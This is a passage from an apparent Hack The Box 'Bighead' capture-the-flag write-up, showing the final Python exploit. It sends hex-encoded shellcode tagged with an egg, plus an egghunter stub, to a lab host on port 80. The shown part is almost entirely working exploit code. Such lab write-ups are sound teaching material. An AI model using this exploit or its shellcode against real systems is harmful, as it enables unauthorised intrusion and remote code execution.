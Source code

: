 ![](/images/hackthebox/bighead/81.png)
<br> The exploit is ready, we just need to call the functions :
```
send_shellcode(N,host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```
![](/images/hackthebox/bighead/82.png)
<br> Final Exploit :
```
#!/usr/bin/python
import socket
import binascii
import re

host = '10.10.10.112'
port = 80
egg = 'R1ck'

N = 0

buf =  ""
buf += "d9c7d97424f45a2bc9bb9f0948"
buf += "3bb15283c204315a1303c51aaa"
buf += "ce05f4a831f505cdb81034cddf"
buf += "5167fd94378476f8a31ffad5c4"
buf += "a8b103eb29e9706aaaf0a44c93"
buf += "3ab98dd42730df8d2ce7cfba79"
buf += "3464f06c3c99418e6d0cd9c9ad"
buf += "af0e62e4b7534fbe4ca73b4184"
buf += "f9c4eee93537ee2ef1a8854601"
buf += "549e9d7b822b05db418be1dd86"
buf += "4a62d163182cf672cd4702fef0"
buf += "878244d703ce1f7612aace8744"
buf += "15ae2d0fb8bb5f52d508526c25"
buf += "07e51f17885db71b4178405b78"
buf += "3cdea2833df760d76d6f4058e6"
buf += "6f6d8da93fc17e0aefa12ee2e5"
buf += "2d101206e439b9fd6f4c34ee74"
buf += "384a108e81c3f6fae185a19298"
buf += "8f3902641a4404eea9b9cb07c7"
buf += "a9bce792936bf708bbf06ad73b"
buf += "7e97406cd76999f8c5d0331e14"
buf += "847c9ac375822381c2a0335fca"
buf += "ec670f9dbad1e9770d8ba324c7"
buf += "5b3507d81d3a42aec18b3bf7fe"
buf += "24acff87584cff52d97c4afe48"
buf += "15136bc978a4460e852762ef72"
buf += "3707ea3ffff486506afa3550bf"

shellcode = (egg * 2) + binascii.unhexlify(buf)
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + binascii.hexlify(egg) + "8bfaaf75eaaf75e7ffe7"

```